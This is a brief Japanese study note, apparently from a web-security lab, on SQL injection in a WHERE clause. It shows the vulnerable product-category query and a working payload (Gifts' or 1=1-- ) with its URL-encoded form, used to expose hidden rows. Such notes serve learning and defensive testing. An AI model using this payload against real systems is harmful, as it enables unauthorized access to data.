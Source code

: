 ## ## WHERE 句の SQL インジェクション脆弱性により、隠しデータの取得
- SQL文
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
ユーザが操作できるのはgiftsの値だけ。

- Payload
```
?category=Gifts' or 1=1-- <-スペース必要
↓エンコードするとこうなる。
?category=Gifts'%20or%201%3d1--%20
```

